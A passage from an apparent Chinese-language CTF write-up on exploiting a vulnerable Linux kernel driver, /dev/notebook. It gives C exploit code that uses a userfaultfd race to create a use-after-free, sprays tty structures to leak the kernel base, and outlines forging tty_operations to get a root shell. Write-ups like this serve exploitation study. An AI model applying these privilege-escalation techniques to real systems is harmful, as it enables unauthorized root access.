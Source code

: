```c
}

int main() {
    int tty_fd;
    size_t tty_buf[0x100];
    save_status();
    bind_cpu(0);


    fd = open("/dev/notebook", O_RDWR);
    if (fd < 0) {
        perror("open fd");
        exit(EXIT_FAILURE);
    }
    sem_init(&add_sem, 0, 0);
    sem_init(&edit_sem, 0, 0);

    uffd_buf = (char *) mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, 
                            MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    register_userfaultfd_with_default_handler(&monitor_thread, uffd_buf, 0x1000, stuck);

    add(0, 0x20, "add");
    edit(0, 0x2e0, "tty");

    pthread_create(&add_thread, NULL, (void *)add_thread_func, NULL);
    pthread_create(&edit_thread, NULL, (void *)edit_thread_func, NULL);

    sem_post(&edit_sem);
    sleep(1);
    sem_post(&add_sem);
    sleep(1);

    puts("[+] UAF");  // 0->ptr = freed_chunk

    tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);

    note_read(0, tty_buf);
    kernel_base = tty_buf[3] - 0xe8e440;
    printf("[+] kernel_base = 0x%lx\n", kernel_base);
}

```



在这里，我们用了两个信号量来做，这样的话方便控制一些，对于缺页的页只需要 stuck 就完事了。有了 UAF 之后，我们可以简单的使用 write 来进行提权。



后面的东西我们不再介绍，gift 拿到 heap 之后伪造 tty_operations，然后利用 work_for_cpu_fn 来分布执行拿到 shell 即可

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <semaphore.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/syscall.h>
```